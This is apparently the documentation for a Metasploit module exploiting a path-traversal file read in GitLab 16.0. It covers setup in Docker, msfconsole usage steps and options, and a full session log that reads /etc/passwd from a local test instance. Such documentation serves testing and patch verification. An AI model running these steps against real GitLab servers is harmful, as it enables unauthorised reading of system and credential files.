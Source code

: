 ## Vulnerable Application

GitLab version 16.0 contains a directory traversal for arbitrary file read as the `gitlab` user.
In order to exploit this vulnerability, a user must be able to create a project and groups.
When exploiting this vulnerability, a group (or subgroup under the group) must be created
for each level of the traversal. If the depth is 11 for the dir traversal, then a group
and 10 sub-groups will be created. Lastly a project is created for that subgroup.
With all these requirements satisfied a dummy file is uploaded, and the full
traversal is then executed. Cleanup is performed by deleting the first group which
cascades to deleting all other objects created.

Tested on a Docker image of GitLab 16.0

### Install

A Docker image is available:

```
sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  --shm-size 256m \
gitlab/gitlab-ee:16.0.0-ee.0 
```

To retrieve the default password:

```
sudo docker exec -it gitlab grep 'Password:' /etc/gitlab/initial_root_password
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/gitlab_subgroups_file_read`
1. Do: `set rhosts [ip]`
1. Do: `set username [username]`
1. DO: `set password [password]`
1. Do: `run`
1. You should be able to read an arbitrary file.

## Options

### DEPTH

Depth for path traversal (also groups creation). 11 seems pretty safe but it may work with less. Defaults to `11`.

### FILE

File to read. Defaults to `/etc/passwd`

## Scenarios

### Docker GitLab 16.0

```
msf6 > use auxiliary/scanner/http/gitlab_subgroups_file_read
[*] Using auxiliary/scanner/http/gitlab_subgroups_file_read
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set username root
username => root
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set password r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
password => r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > exploit

[+] CSRF Token: wYYZ0Q1TnrrZmqwpAk707emZcXsIlzMawZ7s-HycVHmo668JVMqDb-R8NCVTVEMNlDAWbrIwngXKSH2wWtURzQ
[*] Creating 11 groups
[*] Creating group: OqJVwVlC with parent id: 
[+] CSRF Token: 8X7OT15TxpI36rOIu-ghgVbodK8fRl4Lz-3fqaNH_MmYE3iXB8rbRwoMK4Tq8pZhK0ETuqXh8xTEO07hhQ65fQ
[*] Creating group: 5hYTGpp8 with parent id: 2
[+] CSRF Token: PNnNU0R5iB-57xVW20dBD0FKfb1yMw15tjvHCZICyG9VtHuLHeCVyoQJjVqKXfbvPOMaqMiUoGa97VZBtEuN2w
[*] Creating group: XlpSkZKQ with parent id: 3
[+] CSRF Token: nS0eZJb7gVQM6-HYRPpj14MBhIq4WoObZOFASPC_F1b0QKi8z2KcgTENedQV4NQ3_qjjnwL9LoRvN9EA1vZS4g
[*] Creating group: KQCk8adK with parent id: 4
[+] CSRF Token: yr8EaL1nQdm9aIhpGca1Ay8u2m3oLGqAk_BO23hw02Sj0rKw5P5cDICOEGVI3ALjUoe9eFKLx5-YJt-TXjmW0A
[*] Creating group: xg9hUYPo with parent id: 5
[+] CSRF Token: 5wYo0n-rkMKFMRGlFyjN6knw71WIBDIUUjyLLDSE9UmOa54KJjKNF7jXialGMnoKNFmIQDKjnwtZ6hpkEs2w_Q
[*] Creating group: cNrX6LHf with parent id: 6
[+] CSRF Token: Z4IipgGhLQixQu8cbyNznk2pIj0udxMCgGKHaEzqkw4O75R-WDgw3YykdxA-OcR-MABFKJTQvh2LtBYgaqPWug
[*] Creating group: Mg4MESRy with parent id: 7
[+] CSRF Token: 4g209zNkQLg2Mf4RPMsSOjIGD-f2jaJrP_Fa4iYQRLaLYAIvav1dbQvXZh1t0aXaT69o8kwqD3Q0J8uqAFkBAg
[*] Creating group: 7b2cIgyZ with parent id: 8
[+] CSRF Token: MbKcsl5RuiynfU8JyJ1iT_mBKKqfAWpuM7LEVjTTmPBY3ypqB8in-Zqb1wWZh9WvhChPvyWmx3E4ZFUeEprdRA
[*] Creating group: EDkbB7Mw with parent id: 9
[+] CSRF Token: FbcBF0FcEy1vhn-ahOLHgz5wPx952kmwDNT2Qfte-Ud82rfPGMUO-FJg55bV-HBjQ9lYCsN95K8HAmcJ3Re88w
[*] Creating group: 4L2kbTKx with parent id: 10
[+] CSRF Token: iSsK-buEQzOnykZ_DmtRo2_4RV6HSix8nLEpDN9WeSjgRrwh4h1e5pos3nNfceZDElEiSz3tgWOXZ7hE-R88nA
[*] Creating group: UrW6NUYW with parent id: 11
[+] CSRF Token: _Md66xoUbGn3lOKAkgDR9p30KKPH6sDEBckrOfE8LNaVqswzQ41xvMpyeozDGmYW4F1Ptn1NbdsOH7px13VpYg
[*] Creating project 8tXCf26j
[*] Creating a dummy file in project
[*] Executing dir traversal
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

[+] /etc/passwd saved to /root/.msf4/loot/20230529000533_default_127.0.0.1_Gitlabfile_212326.txt
[*] Deleting group OqJVwVlC
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
